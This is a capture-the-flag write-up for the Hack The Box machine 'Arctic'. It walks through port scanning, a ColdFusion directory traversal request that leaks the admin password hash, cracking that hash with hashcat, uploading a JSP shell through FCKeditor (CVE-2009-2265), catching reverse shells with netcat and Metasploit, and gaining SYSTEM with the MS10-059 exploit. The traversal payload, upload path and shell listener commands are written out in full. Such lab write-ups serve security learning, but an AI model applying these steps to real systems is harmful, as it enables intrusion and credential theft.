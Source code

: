 
### Index
1. Locating nmap NSE script 
2. Enumerating RPC
3. Adobe Cold Fusion FCKEditor File upload vulnerability. [CVE-2009-2265](https://www.exploit-db.com/exploits/50057)
4. Upgrading the NetCat Shell (Gained by executing the python exploit) to Meterpreter shell and then running local exploit suggester.
5. MS10-059: Chimichurri was used for Priv Esc.



Initial Enumeration (subdomain, vhosts, directories/files)

```
$ nmap -p- --min-rate=1000 -Pn -T4 -sC -sV 10.10.10.11 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-01 00:49 EDT
Nmap scan report for arctic.htb (10.10.10.11)

PORT      STATE SERVICE VERSION
135/tcp   open  msrpc   Microsoft Windows RPC
8500/tcp  open  fmtp?
49154/tcp open  msrpc   Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

Just because port 135 is open. Trying out RPC Enum
```
$ locate -r nse$ | grep msrpc  
/usr/share/nmap/scripts/msrpc-enum.nse

$ sudo nmap -p135 --script=msrpc-enum -sS -sC -sV 10.10.10.11
PORT    STATE SERVICE VERSION
135/tcp open  msrpc   Microsoft Windows RPC
```

Upon access the site on port 8500, the CVE-2010-2861 Directory Traversal Vulnerability was present. I read the [PoC ](https://github.com/vulhub/vulhub/blob/master/coldfusion/CVE-2010-2861/README.md) and found the backend admin password.
```
Request:
GET /CFIDE/administrator/enter.cfm?locale=../../../../../../../lib/password.properties%00en HTTP/1.1
Host: arctic.htb:8500
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: close
Cookie: CFID=200; CFTOKEN=84509656
Upgrade-Insecure-Requests: 1

Response:
<title>#Wed Mar 22 20:53:51 EET 2017
rdspassword=0IA/F[[E>[$_6& \\Q>[K\=XP  \n
password=2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03
encrypted=true</title>
```

using auxiliary/scanner/http/coldfusion_locale_traversal in msf
```
use auxiliary/scanner/http/coldfusion_locale_traversal
```

Trying to identify the hash as well
```
$>$hashid 2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03
Analyzing '2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03'
[+] SHA-1 
[+] Double SHA-1 
[+] RIPEMD-160 
[+] Haval-160 
[+] Tiger-160 
[+] HAS-160 
[+] LinkedIn 
[+] Skein-256(160) 
[+] Skein-512(160) 

```

Cracking the above hash and got the admin password for Adobe Coldfusion
```
$ hashcat -m 100 -a 0 2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03 /usr/share/wordlists/rockyou.txt
2f635f6d20e3fde0c53075a84b68fb07dcec9b03:happyday  

If you have cracked the above hash and you'd like to re-crack it for the demonstration purpose than you can use the following command
$ hashcat -m 100 -a 0 2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03 /usr/share/wordlists/rockyou.txt --show
2f635f6d20e3fde0c53075a84b68fb07dcec9b03:happyday 
```

After digging into Admin Panel, I did not find any place to host my reverse Shell. I was able to create archives, backups, connectors but nothing was helping me to host my shell. Under the system settings in Admin panel, i notice that the user 'tolis' is mention and the adobe cold fusion is deployed as user 'tolis'. I googled ColdFusion RCE and found this [Exploit-DB](https://www.exploit-db.com/exploits/50057) exploit which is CVE-2009-2265. The vulnerability exist in FCKeditor and the path to upload files is unrestricted. However, I was not able to locate where is the FCKeditor from the Admin panel. I have the exploit. Felt like I'm just a noob that don't know what the exploit is doing. But Reading the [GitHub Repo](https://github.com/0xConstant/CVE-2009-2265 ) make little bit things clear in my brain. 

After reading [This Article](https://codewatch.org/2013/12/07/manually-penetrating-the-fckedit-vulnerability-cve-2009-2265/) Things were little bit clear that during my earlier enumeration, I forgot to take a look at the following path when I open http://arctic.htb:8500/ 
```
/CFIDE/scripts/ajax/FCKeditor/editor/filemanager/connectors/cfm/
```

Now the Exploit-DB exploit that I have used earlier, make sense that my JSP shell is being uploaded to the following location.
```
/CFIDE/scripts/ajax/FCKeditor/editor/filemanager/connectors/cfm/upload.cfm?Command=FileUpload&Type=File&CurrentFolder=/{filename}.jsp%00
```

I have the path present on my target and I use the exploit to capture the Tolis user flag. 

# Shell Upgrading Notes

My python exploit code has the following line. 
```
os.system(f'nc -nlvp {lport}')
```

I comment out the above line in the python exploit and use the following msf module to start the netcat listener so that I can capture the meterpreter shell instead of the netcat shell.
```
msf>use exploit/multi/handler
msf>set LHOST 10.10.16.5
msf>set LPORT 4444
msf>run
[*] Started reverse TCP handler on 10.10.16.5:4444 

[*] Command shell session 1 opened (10.10.16.5:4444 -> 10.10.10.11:55411) at 2024-08-06 00:15:27 -0400

Now use CTRL+Z to throw the shell in the background and use 'local_exploit_suggester'. For this machine it was not helpful. Still i tried.
```

# Privilege Escalation 

### Initial Enum using winPEAS.bat

UAC is Enabled. but according to HackTricks, I need a GUI access
```
 [+] UAC Settings                                                                                                                                                       
   [i] If the results read ENABLELUA REG_DWORD 0x1, part or all of the UAC components are on                                                                            
   [?] https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#basic-uac-bypass-full-file-system-access           
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System                                                                            
    EnableLUA    REG_DWORD    0x1
```

I tried mimikatz.exe and I did not have any good luck there. Reading the Machine Info on Hack The Box, i notice that it was mention that "privilege escalation is achieved using the MS10-059 exploit. " [This Exploit](https://github.com/egre55/windows-kernel-exploits/tree/master/MS10-059%3A%20Chimichurri/Compiled) was used to obtained the Administrator Shell and root flag.

```
$ nc -lvnp 8000                                                                      
listening on [any] 8000 ...
connect to [10.10.16.5] from (UNKNOWN) [10.10.10.11] 55575
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Users\tolis\Documents>whoami
whoami
nt authority\system

C:\Users\Administrator\Desktop>more root.txt
more root.txt
fcb***********************
```

